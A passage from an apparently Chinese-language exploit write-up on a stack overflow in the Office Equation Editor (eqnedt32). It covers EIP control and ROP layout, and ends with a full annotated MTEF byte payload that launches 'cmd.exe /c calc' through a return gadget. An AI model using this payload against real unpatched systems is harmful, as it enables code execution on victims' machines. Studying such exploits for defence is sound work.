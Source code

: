 ```

001f1642  45 00 7a 16 1f 00 00 00-00 00 00 00 00 00 00 00  E.z.............

001f1652  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

001f1662  00 00 00 00 00 00 00 00-00 00 44 00 00 00 00 00  ..........D.....
```

同时，与checkpoint的文章中描述的一致, 此时的eax指向命令行参数的前第0x32个字节处。不出所料，此时的eip被覆盖为0xdeadbeef，正如checkpoint文章中所示的那样。

到这里就简单了，我们需要用到rop，checkpoint已经在他们的文章中给出rop的生成方法了，我直接用了他们的，主要意图就是是确保栈溢出后栈上的布局如下：

[![](https://p2.ssl.qhimg.com/t017030c45ca5e58026.png)](https://p2.ssl.qhimg.com/t017030c45ca5e58026.png)

在没有开启aslr的eqnedt32版本上尝试，此时的base固定为0x400000，用Python脚本生成相应的rop语句。根据溢出长度此时第一次拷贝长度为8，第二次拷贝长度为40个字节，所以之前的控制长度的字节需要从1c 4c调整为1c 9c((2 * 0x9c + 9) &gt;&gt; 3 = 0x28)

现在，在不打11月补丁的版本上，我构造的全部数据如下：

```
03 01 01 03 0A // MTEF头部

0A // 初始SIZE

09 // tag

64 // 0n100

22 // lsize

1c // dsize-high-byte

4c // dsize-low-byte

44 // 确保进入case 4

66 // 填充用，随意

77 // 填充用，随意

09 // 填充用，随意

05 // 填充用，随意

AA // 填充用，随意

55 // 确保进入第2个case 4

10 // sub_443e34内读入的第1个字节

11 // sub_443e34内读入的第2个字节

12 // sub_443e34内读入的第3个字节

1c // 等待计算以决定拷贝大小的长度1

4c // 等待计算以决定拷贝大小的长度2

63 6d 64 2e 65 78 65 20 // 第一次拷贝的8个字节

2f 63 63 61 6c 63 00 44 44 44 44 44

19 00 00 00 // ebp

3a c7 44 00 // ret_addr: add esp, 4; ret
```